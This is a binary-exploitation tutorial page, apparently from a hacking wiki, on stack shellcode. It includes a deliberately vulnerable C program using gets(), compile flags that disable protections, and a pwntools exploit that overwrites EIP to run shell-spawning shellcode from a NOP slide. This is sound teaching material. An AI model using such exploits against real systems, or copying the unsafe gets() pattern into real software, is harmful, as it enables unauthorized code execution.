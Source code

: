 # Stack Shellcode

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

**Stack shellcode** is a technique used in **binary exploitation** where an attacker writes shellcode to a vulnerable program's stack and then modifies the **Instruction Pointer (IP)** or **Extended Instruction Pointer (EIP)** to point to the location of this shellcode, causing it to execute. This is a classic method used to gain unauthorized access or execute arbitrary commands on a target system. Here's a breakdown of the process, including a simple C example and how you might write a corresponding exploit using Python with **pwntools**.

### C Example: A Vulnerable Program

Let's start with a simple example of a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
    vulnerable_function();
    printf("Returned safely\n");
    return 0;
}
```

This program is vulnerable to a buffer overflow due to the use of the `gets()` function.

### Compilation

To compile this program while disabling various protections (to simulate a vulnerable environment), you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

* `-fno-stack-protector`: Disables stack protection.
* `-z execstack`: Makes the stack executable, which is necessary for executing shellcode stored on the stack.
* `-no-pie`: Disables Position Independent Executable, making it easier to predict the memory address where our shellcode will be located.
* `-m32`: Compiles the program as a 32-bit executable, often used for simplicity in exploit development.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:

```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```

This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Protections

* [**ASLR**](../../common-binary-protections-and-bypasses/aslr/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded.
* [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.
* [**NX**](../../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** protection would prevent the execution of the shellcode inside the stack because that region won't be executable.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
  * 64bit, ASLR with stack address leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
  * 32 bit, ASLR with stack leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
  * 32 bit, ASLR with stack leak, comparison to prevent call to exit(), overwrite variable with a value and write shellcode and jump to it
* [https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/](https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/)
  * arm64, no ASLR, ROP gadget to make stack executable and jump to shellcode in stack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
